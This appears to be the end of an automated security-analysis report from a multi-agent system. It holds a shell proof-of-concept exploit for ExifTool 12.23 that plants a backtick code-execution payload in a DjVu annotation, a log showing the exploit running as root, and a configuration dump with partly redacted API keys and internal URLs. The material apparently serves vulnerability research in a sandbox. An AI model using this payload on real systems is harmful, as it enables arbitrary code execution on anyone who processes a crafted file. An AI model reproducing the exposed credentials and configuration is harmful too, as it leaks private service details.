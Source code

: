 # Build minimal stub
printf 'FORM' > exploit.djvu
printf '\x00\x00\x00\x00' >> exploit.djvu
printf 'DJVU' >> exploit.djvu

# Payload: \041 == '!' ; backticks executed by unsafe eval
MAL='Hello\041`system("id > /tmp/pwned")`'
echo "[*] Injecting payload..."
"$ET" -overwrite_original -DjVu:Annotation="$MAL" exploit.djvu

echo "[*] Triggering parser..."
sleep 1

# Check for success
if [ -f /tmp/pwned ]; then
  echo "[+] Exploit SUCCESS – /tmp/pwned contains:"
  cat /tmp/pwned
  exit 0
else
  echo "[-] Exploit FAILED – /tmp/pwned not found."
  exit 1
fi


poC_written
[19:17:14]
yes


exploit_sh_written
[19:17:18]
yes


exploit_output
[19:17:54]
[*] Injecting payload...
1 image files updated
[*] Triggering parser...
[+] Exploit SUCCESS [0;32m– /tmp/pwned contains:
uid=0(root) gid=0(root) groups=0(root)[0m


exploit_success
[19:17:56]
true



---

openai_api_key='sk-svcacct-...' brave_search_api_key='BSA...' rich_console=<console width=206 ColorSystem.TRUECOLOR> llm_api_key='sk-...' llm_base_url='https://litellm.faigle.dev' max_reprompts=5 model='openai/o4-mini' model_temperature=0.3 reasoning_model='openai/o4-mini' max_turns=50 session_db_path='./sessions.sqlite' log_level='INFO' trace_name='multi-agent exiftool' sandbox_image='vuln-exiftool:latest' setup_archive=None codebase_path='/home/julian/Desktop/Bachelorarbeit/testdata/exiftool/codebase' vulnerable_folder='exiftool-12.23' patched_folder='exiftool-12.24' chroma_path='/home/julian/Desktop/Bachelorarbeit/ivexes/chroma/' embedding_model='intfloat/multilingual-e5-large-instruct' embedding_provider='local'

---

---
*Report generated by IVEXES Multi-Agent Security Analysis System*
